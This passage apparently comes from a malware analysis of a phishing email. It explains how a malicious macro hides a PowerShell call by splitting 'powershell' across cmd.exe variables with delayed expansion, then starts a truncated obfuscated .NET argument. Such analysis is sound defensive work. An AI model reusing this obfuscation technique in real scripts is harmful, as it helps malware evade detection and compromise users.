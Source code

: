 ![](images/Analysis%20of%20a%20Phishing%20Email/image006.png)<br><br>


Let's look at the command that the macro runs.  First `cmd.exe` is called and several variables are defined.  Extracting specific variables that are set reveals how `cmd.exe` will interpret these commands:

```
set %var1% = p
set %var2% = ow
set %var3% = er
set %var4% = s
set %var5% = he
set %var6% = ll
set %var8%=!%var2%!
set %var7%=!%var1%!
```

<br>

The `/V` switch is used to ensure that environment variables are only expanded just before they are executed. The last command is a group of variables followed by a long argument containing .NET functions:

```
!%var7%!!%var8%!!%var3%!!%var4%!!%var5%!!%var6%! "([rUnTiME.INTeroPseRvICeS.mArshAl]::pTrToStringunI(..."
```

<br>
